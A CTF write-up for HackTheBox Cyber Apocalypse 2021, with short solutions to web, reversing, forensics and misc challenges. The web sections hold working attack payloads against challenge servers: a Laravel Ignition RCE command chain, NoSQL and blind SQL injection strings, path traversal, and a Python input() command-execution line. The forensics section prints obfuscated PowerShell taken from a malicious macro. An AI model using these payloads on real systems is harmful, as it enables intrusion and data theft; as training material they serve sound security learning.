


# **Hackthebox Cyber Apocalypse CTF 2021**

This is my writeup for the challenges i solved in Hackthebox Cyber Apocalypse CTF 2021.


***
# Table of Contents

- [**Hackthebox Cyber Apocalypse CTF 2021**](#hackthebox-cyber-apocalypse-ctf-2021)
- [Table of Contents](#table-of-contents)
- [Warmup](#warmup)
  - [Welcome](#welcome)
- [Web](#web)
  - [BlitzProp](#blitzprop)
  - [Daas](#daas)
  - [MiniSTRyplace](#ministryplace)
  - [Caas](#caas)
  - [Wild Goose Hunt](#wild-goose-hunt)
  - [emoji voting](#emoji-voting)
- [Reversing](#reversing)
  - [Authenticator](#authenticator)
  - [Passphrase](#passphrase)
- [Forensics](#forensics)
  - [Key Mission](#key-mission)
  - [Invitation](#invitation)
- [Miscellaneous](#miscellaneous)
  - [Alien Camp](#alien-camp)
  - [Input as a Service](#input-as-a-service)
  - [Build yourself in](#build-yourself-in)
***

# Warmup

## Welcome

**Solution:** The flag is found in HTB discord: CHTB{CA_CTF_i$_F*ing_EPIC}


# Web

## BlitzProp

**Solution:** Following https://blog.p6.is/AST-Injection/ , we can perform AST injection on the Pug templating engine. We can use ngrok tcp to generate the public address.


Flag: **CHTB{p0llute_with_styl3}**

## Daas

**Solution:** 
On the main page, it shows that the application is running v8.35.1


There’s an Remote code execution vulnerability (https://www.exploit-db.com/exploits/49424) on version 8.4.2 
Vulnerability: https://www.ambionics.io/blog/laravel-debug-rce
Running the exploit(https://github.com/ambionics/laravel-exploits) for the vulnerability works
Used in the exploit (phpggc) https://github.com/ambionics/phpggc


we can change the command used in the payload
* php -d'phar.readonly=0' ../phpggc/./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system '**id**'
* pyhon3 laravel-ignition-rce.py http://139.59.174.238:30253/ /tmp/exploit.phar

Changing the command to ls lists the directories 


Traversing around, the flag is at ../../


Running 
* php -d'phar.readonly=0' ../phpggc/./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system 'cat ../../flagXQKL8'
* pyhon3 laravel-ignition-rce.py http://139.59.174.238:30253/ /tmp/exploit.phar


Flag: **CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}**

## MiniSTRyplace

**Solution:** 
From the source code, we can see that the php code is replacing `../`


Using `....//` instead of `../` will allow us to traverse the directories which allows us to read the flag from `....//....//flag`


Flag: **CHTB{b4d_4li3n_pr0gr4m1ng}**

## Caas

**Solution:** 
Using `file://` we can access the flag


Flag: **CHTB{f1le_r3trieval_4s_a_s3rv1ce}**

## Wild Goose Hunt

**Solution:** 
From the source code, we can tell that the application is using MongoDB which could be vulnerable to NoSQL injection

Testing the application with the payload `username[$ne]=1&password[$ne]=1`, we are able to login which shows that it is vulnerable to NoSQL injection


From the response, we can tell that the username is ‘admin’
We can try to get the password using username=admin&password[$regex]=C.*


Running the code, we can get the flag
Code Original source: https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/


Flag: **CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}**

## emoji voting

**Solution:** 
Looking at the source code, we can see that there is a comment that says that there is no parametrization thus there could be a SQL injection.


From the source code, we can also see that there is a table call flag_${ rand } where rand is some random hex string and it contains the flag


Using Burp, Intercept the `POST /api/list` request and send to repeater to test
Using the values “count” and “name”, we can see that the response order will be different

Using the payload `CASE WHEN 1=1 THEN count ELSE name END` and `CASE WHEN 1=0 THEN count ELSE name END`, the order in the response we get is different thus the application is vulnerable to SQL injection.

Using the [substr](https://www.sqlitetutorial.net/sqlite-functions/sqlite-substr/) function, we can test for a specific character 
e.g. `CASE WHEN (substr('emojis',1,1)='e') THEN name ELSE count END`

To find the name of the table, we can use `SELECT name FROM sqlite_master WHERE type='table'` (https://stackoverflow.com/questions/82875/how-to-list-the-tables-in-a-sqlite-database-file-that-was-opened-with-attach)

Payload used `CASE WHEN (substr((SELECT name FROM sqlite_master WHERE type='table'),1,1)='f')" THEN name ELSE count END`

Running the script to brute force the table name, 


we get the name of the database


After getting the name of the database, we can get the flag using `CASE WHEN (substr((SELECT flag FROM flag_c0cb915109),1,1)='C') THEN name ELSE count END`

Running the script, we can get the flag


Flag: **CHTB{order_me_this_juicy_info}**
http://sqlfiddle.com/ was used for testing

# Reversing

## Authenticator

**Solution:** 
Running the binary, it asks for an ID


Using strings, we can see that `11337` might be the ID


Entering `11337` as the ID, the binary prompts for a Pin


Putting the binary in ghidra, we can see that there is a checkpin function


In the checkpin function, we see that there is a string `}a:Vh|}a:g}8j=}89gV<p<}:dV8<Vg9}V<9V<:j|{:` and that its XOR with 0x9


After XOR, we get `th3_auth3nt1c4t10n_5y5t3m_15_n0t_50_53cur3`


Entering that as the Pin gives us access granted!


Flag: **CHTB{th3_auth3nt1c4t10n_5y5t3m_15_n0t_50_53cur3}**

## Passphrase

**Solution:** 
Running the binary, it asks for a passphrase


Opening the binary in ghidra, decompiling main we can see that there are many hex digits


Converting the hex digits, we get xtr4t3rR3stR14L5_VS_hum4n5 and after adding the 3 in front, we get `3xtr4t3rR3stR14L5_VS_hum4n5` which is the passphrase


Flag: **CHTB{3xtr4t3rR3stR14L5_VS_hum4n5}**

# Forensics

## Key Mission

**Solution:** 
Following https://abawazeeer.medium.com/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4 , use ((usb.transfer_type == 0x01) && (frame.len == 72)) && !(usb.capdata == 00:00:00:00:00:00:00:00) as the filter and extract the HID data

Using the script from https://blog.stayontarget.org/2019/03/decoding-mixed-case-usb-keystrokes-from.html and We can get the flag


remove the 'edel' as the key pressed is 'e' 'del'
Flag: **CHTB{a_plac3_fAr_fAr_away_fr0m_earth}**

## Invitation

**Solution:** 
From invite.docm, extract the vba code (the macro)

Run the vba code for each string

```vba
Module VBModule
    Sub Main()
        Console.WriteLine(Func1("50"))
    End Sub

    private Function Func1(ByVal STR1 As String) As String
        Dim LONG1 As Long
        For LONG1 = 1 To Len(STR1) Step 2
        Func1 = Func1 & Chr$(Val("&H" & Mid$(STR1, LONG1, 2)))
        Next LONG1
    End Function
End Module
```

After running the code, you will get ”POWERSHELL.exe -noexit -w hidden -enc “ and base64 encoded values. Decode the base64 values to get the malicious payload.

There’s 2 obfuscated lines
```powershell
 ( $PshomE[4]+$pshoMe[30]+'x') ( [strinG]::join('' , ([REGeX]::MaTCHES( ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(eCALPER)'$','wqi'(eCALPER)';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'(" ,'' ,'R'+'iGHTtOl'+'eft' ) | FoREaCH-OBJecT {$_VALUE} ))  )
```

And 

``` powershell
SEt ("G8"+"h")  (  " ) )63]Rahc[,'raZ'EcalPeR-  43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSotEcNereFeRpEsOBREv$ (  "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  )VALue[ - 1 - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  )VALueLengtH)] | IeX 
```

In both lines, there are what looks like string concatenation
`';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'` and `';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'`

Combining the string, we get `';tXjera_scodlam{BTHCtXj = pgerwqi'` and  `';2N1}atem_wen_eht_2N1 = ngerraZ'`

Reversing them we get `“Zarregn = 1N2_the_new_meta}1N2;”` and `“iqwregp = jXtCHTB{maldocs_arejXt;”` and can get the flag after some testing

Flag: **CHTB{maldocs_are_the_new_meta}**


# Miscellaneous

## Alien Camp

**Solution:** 
Connecting to the service, we get a prompt
Enter 1 shows emojis and their number


Entering 2 shows that there are 500 questions , each with a small amount of time to answer them

 
Writing a script and running it gives us the output


Flag: **CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}**

## Input as a Service

**Solution:** 
Connecting to the service, we get a prompt
We can use `__import__('os').system('ls')` to execute system commands and get the flag

Flag: **CHTB{4li3n5_us3_pyth0n2.X?!}**


Reason: in python 2 input treats stdin as python code to execute
Reference: https://www.programmersought.com/article/79232641181/


## Build yourself in

**Solution:** 
Following https://birdsarentrealctf.dev/2020/06/25/RedpwnCTF-2020-Albatross-Writeup-bjornmorten.html

Running the script, we can get a shell and the flag


 
Flag: **CHTB{n0_j4il_c4n_h4ndl3_m3!}**

